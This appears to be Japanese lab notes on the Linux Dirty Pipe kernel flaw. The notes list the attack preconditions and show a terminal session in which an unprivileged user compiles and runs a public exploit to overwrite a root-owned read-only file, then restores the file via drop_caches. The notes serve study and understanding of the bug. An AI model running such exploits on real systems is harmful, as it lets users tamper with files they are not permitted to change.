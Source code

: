 - 発見者の観測した現象: ログサーバがネットワーク越しにデータを集め、
  splice() と pipe を使って月次のデータの圧縮ファイルを作成するワークロードで、
  圧縮ファイルが破壊されて見える (CRC チェックに失敗)。

# 攻撃

攻撃が成功する条件

- 対象ファイルに対するリード権限がある。
- 対象書き込み位置がページサイズアラインでない。
- ライトが page boundary をまたがない。またいでしまうと anonymous buffer になってしまう (大きなデータは書けない)

https://dirtypipe.cm4all.com/#exploiting をやってみる。

```
[build3:~/tmp/220316_dirty_pipe]$ uname -r
v5.16
[build3:~/tmp/220316_dirty_pipe]$ whoami
root
[build3:~/tmp/220316_dirty_pipe]$ echo "confidential data" > confidential
[build3:~/tmp/220316_dirty_pipe]$ ls -l
...
-rw-r--r--. 1 root root        18 Mar 16 22:25 confidential
[build3:~/tmp/220316_dirty_pipe]$ su hori
[hori@build3 220316_dirty_pipe]$ cat confidential
confidential data
[hori@build3 220316_dirty_pipe]$ echo 'change' > confidential
bash: confidential: Permission denied
[hori@build3 220316_dirty_pipe]$ gcc -o exploit exploit.c
[hori@build3 220316_dirty_pipe]$ ll
total 91816
-rw-r--r--. 1 root root        18 Mar 16 22:25 confidential
-rwxrwxr-x. 1 hori hori     24520 Mar 16 22:26 exploit
-rw-rw-r--. 1 hori hori      4384 Mar 16 21:33 exploit.c
...
[hori@build3 220316_dirty_pipe]$ ./exploit confidential 13 'aaaa'
It worked!
[hori@build3 220316_dirty_pipe]$ cat confidential
confidential aaaa
```

興味深い点としては、
この状態、メモリ上のデータが不正に更新されたのに、
dirty フラグが立っていないのでそのままだとライトバックされない。
drop_caches すると元に戻る。

```
[build3:~/tmp/220316_dirty_pipe]$ cat confidential
confidential aaaa
[build3:~/tmp/220316_dirty_pipe]$ echo 3 > /proc/sys/vm/drop_caches
[build3:~/tmp/220316_dirty_pipe]$ cat confidential
confidential data
```
